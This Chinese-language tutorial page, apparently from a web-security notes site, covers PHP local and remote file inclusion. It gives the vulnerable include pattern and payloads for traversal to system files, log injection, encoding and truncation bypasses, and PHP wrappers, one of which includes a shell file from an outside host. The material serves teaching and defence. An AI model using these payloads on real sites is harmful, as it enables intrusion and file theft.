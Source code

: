 文件包含
========================================

基础
----------------------------------------

常见的文件包含漏洞的形式为 ``<?php include("inc/" . $_GET['file']); ?>``

考虑常用的几种包含方式为

- 同目录包含 ``file=.htaccess``
- 目录遍历 ``?file=../../../../../../../../../var/lib/locate.db``
- 日志注入 ``?file=../../../../../../../../../var/log/apache/error.log``
- 利用 ``/proc/self/environ``

其中日志可以使用SSH日志或者Web日志等多种日志来源测试

绕过技巧
----------------------------------------
常见的应用在文件包含之前，可能会调用函数对其进行判断，一般有如下几种绕过方式

url编码绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过

特殊字符绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- 某些情况下，读文件支持使用Shell通配符，如 ``?`` ``*`` 等
- url中 使用 ``?`` ``#`` 可能会影响include包含的结果
- 某些情况下，unicode编码不同但是字形相近的字符有同一个效果

%00截断
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
几乎是最常用的方法，条件是magic_quotes_gpc打开，而且php版本小于5.3.4。

长度截断
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Windows上的文件名长度和文件路径有关。具体关系为：从根目录计算，文件路径长度最长为259个bytes。

msdn定义```#define MAX_PATH 260```，第260个字符为字符串结尾的```\0```

linux可以用getconf来判断文件名长度限制和文件路径长度限制

获取最长文件路径长度：getconf PATH_MAX /root 得到4096
获取最长文件名：getconf NAME_MAX /root 得到255

那么在长度有限的时候，```././././``` (n个) 的形式就可以通过这个把路径爆掉

在php代码包含中，这种绕过方式要求php版本 < php 5.2.8

伪协议绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- 远程包含: 要求 ``allow_url_fopen=On`` and ``allow_url_include=On`` ， payload为 ``?file=[http|https|ftp]://websec.wordpress.com/shell.txt``

- PHP INPUT: 把payload放在POST参数中作为包含的文件，要求 ``allow_url_include=On`` ，payload为 ``?file=php://input``

- BASE64: 使用Base64伪协议读取文件，payload为 ``?file=php://filter/convert.base64-encode/resource=index.php``

- DATA: 使用data伪协议读取文件，payload为 ``?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`` 要求 ``allow_url_include=On``

参考链接
----------------------------------------
- `Exploit with PHP Protocols <https://www.cdxy.me/?p=752>`_
- `lfi cheat sheet <https://highon.coffee/blog/lfi-cheat-sheet/>`_
